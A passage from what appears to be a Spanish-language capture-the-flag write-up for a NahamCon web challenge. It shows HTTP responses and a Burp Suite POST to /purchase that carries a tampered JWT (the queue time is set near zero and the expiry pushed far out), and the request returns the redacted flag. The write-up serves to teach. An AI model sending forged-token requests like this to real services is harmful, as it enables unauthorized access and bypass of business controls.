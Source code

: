 **Respuesta:**

```sh
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.22
Date: Fri, 23 May 2025 23:00:12 GMT
Content-Type: application/json
Content-Length: 84
Connection: close

{
"message":"Your turn has arrived! You can now purchase tickets.",
"status":"ready"
}
```

Si optamos por usar el token en el navegador, veriamos que la compra puede realizarse y basta con dar
click en el boton para obtener la flag. Usando `BurpSuite`, podíamos mandar una petición a
`/purchase` de la siguiente forma:

**Petición:**

```sh
POST /purchase?html=true HTTP/1.1
Host: challenge.nahamcon.com:31075
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge.nahamcon.com:31075/queue
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://challenge.nahamcon.com:31075
Connection: keep-alive
Priority: u=4

token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYUBhLmEiLCJxdWV1ZV90aW1lIjowLjEsImV4cCI6NTM0ODAzNjQ5MH0.A-KeWH05z3ZmQo22_XbzB67LV7ITw_hrAPlFxunQ3aU
```

**Respuesta:**

```sh
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.22
Date: Fri, 23 May 2025 23:00:14 GMT
Content-Type: application/json
Content-Length: 98
Connection: close

{
"flag":"flag{<--REDACTED-->}",
"message":"Purchase successful!",
"success":true
}
```

De esta forma, hemos conseguido la bandera para este reto.

## Referencias útiles

- [jwt.io](https://jwt.io/)
